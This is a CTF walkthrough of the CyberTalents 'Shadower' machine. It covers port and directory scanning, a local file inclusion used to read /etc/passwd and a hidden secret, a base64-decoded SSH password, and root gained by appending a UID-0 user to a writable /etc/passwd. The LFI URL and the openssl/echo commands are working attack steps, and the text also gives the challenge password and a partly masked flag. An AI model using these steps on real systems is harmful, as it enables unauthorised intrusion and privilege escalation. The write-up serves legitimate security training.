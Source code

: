 ```yaml
---
title: Cybertalents Shadower Machine Writeup
author: Muhammad Adel
date: 2021-06-26 18:45:00 +0200
categories: [Cybertalents Writeups]
tags: [cybertalents, machines, box, ctf]
---
```


## **Description**


Get The highest privilege on the machine and find the flag!

Target IP: **35.156.4.248**

**Challenge Link:** [https://cybertalents.com/challenges/machines/shadower](https://cybertalents.com/challenges/machines/shadower)

## **User**

### **Nmap**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:24:fc:36:53:c8:0b:f7:8c:31:7a:28:dd:c9:34:02 (RSA)
|   256 6c:6e:61:94:2f:fd:f6:d2:dc:25:e3:4f:32:ac:33:15 (ECDSA)
|_  256 ce:d7:0b:19:cb:32:3b:d4:f1:bf:f7:74:8a:52:d5:bc (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
‌
### **HTTP**

the machine is running a webserver on port 80. it doesn't have sth interesting but we can use *dirsearch* to see hidden directory.

```bash
root@kali:~/dirsearch# python3 dirsearch.py -u 35.156.4.248 -e php

  _|. _ _  _  _  _ _|_    v0.3.9
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 20 | Wordlist size: 6707
Error Log: /home/itsfading/dirsearch/logs/errors-21-06-12_16-24-32.log
Target: 35.156.4.248
Output File: /home/itsfading/dirsearch/reports/35.156.4.248/_21-06-12_16-24-32.txt
[16:24:32] Starting:
[16:24:52] 200 -  827B  - /index.php
[16:24:52] 200 -   11KB - /index.html
[16:24:52] 200 -  827B  - /index.php/login/
```

Navigate to index.php we will find a hint in the page source that says LFI. So we try a simple LFI payload and we found the page is vulnerable. we can extract the */etc/passwd*.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/bash
zerotier-one:x:999:999::/var/lib/zerotier-one:/bin/sh
```
‌
We have now some interesting usernames but still we need to find a password for them. After more enumeration we will find a hint at the contact page in the page source **"<!-my0wns3cr3t.sec -->"**

‌Because we have a LFI Vulnerability we can navigate to it by adding this word in the search:

[http://35.156.4.248/index.php?view=my0wns3cr3t.sec](http://35.156.4.248/index.php?view=my0wns3cr3t.sec)

This will give us a base64 encoded which will be a secret string. now we can decoded it Using a website like **CyberChef** but you will notice that you need to decode it 20 time to get decode value. you can write script for that or to decode it manually.

Finally we will get a password ***"B100dyPa$$w0rd"***


### **SSH**

We have now a password so we can try the usernames that we have to get access to the Machine. we found that John is a valid user


```bash
root@kali:~/CyberTalents/Shadower# ssh john@35.156.4.248
john@ip-172-31-30-167:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```

## **Root**

### **Enumeration**

We can run any automating script to search a privilege escalation vector. I will use **linPEAS**.

It leads me to know that I have a permission to write to /etc/passwd.

## **Privilege Escalation**

Simply we will create our own user with root privileges and then we will switch to it.

```bash
john@ip-172-31-30-167:~$ openssl passwd adel
fItrMJ47Bbm3E
john@ip-172-31-30-167:~$ echo 'adel:fItrMJ47Bbm3E:0:0:adel:/home/adel:/bin/bash' >> /etc/pas
john@ip-172-31-30-167:~$ su adel
Password:

root@ip-172-31-30-167:/home/john# ls
linessh.sh  lse.sh
root@ip-172-31-30-167:/home/john# cat /root/root.txt
6199b2f763edfxxxxxxxb275375c100
```
‌
You can see this resource for more information about this privilege Escalation Technique.

[https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation)](https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation)
